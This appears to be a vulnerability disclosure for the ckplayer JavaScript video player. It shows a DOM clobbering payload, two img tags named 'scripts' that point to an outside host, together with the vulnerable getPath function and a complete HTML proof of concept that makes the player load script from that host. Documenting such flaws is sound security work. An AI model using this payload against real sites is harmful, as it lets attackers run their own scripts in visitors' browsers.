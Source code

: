 ## ckplayer

### Meta

+ Library: ckplayer
+ Stars: 1.1K
+ Version: latest
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx/js/"><img name="scripts" src="https://xxx.xxx.xxx/js/">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

https://gitee.com/niandeng/ckplayer

### Vulnerable Code Snippet

```javascript
function getPath(siz) {
  var scriptList = document.scripts,
    thisPath = scriptList[scriptList.length - 1].src;
  for (var i = 0; i < scriptList.length; i++) {
    var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
    var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
    if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
      thisPath = scriptList[i].src;
      break;
    }
  }
  var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
  if(!isUndefined(siz)){
    path+=siz+'/';
  }
  return path;
}
```

### PoC
```html

<!--Library-->
<link type="text/css" rel="stylesheet" href="ckplayer/css/ckplayer.css" />
<script type="text/javascript" src="./ckplayer/js/ckplayer.js" charset="UTF-8"></script>
<div class="video" style="width: 600px;height: 400px;">播放器容器</div>
<script type="text/javascript">
    var videoObject = {
        language: 'en',
        container: '.video',
        video: 'https://fake-server/no.mp4'
    };
    var player = new ckplayer(videoObject);
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999/js/">
<img name="scripts" src="http://localhost:9999/js/">
<!--Payload-->
```
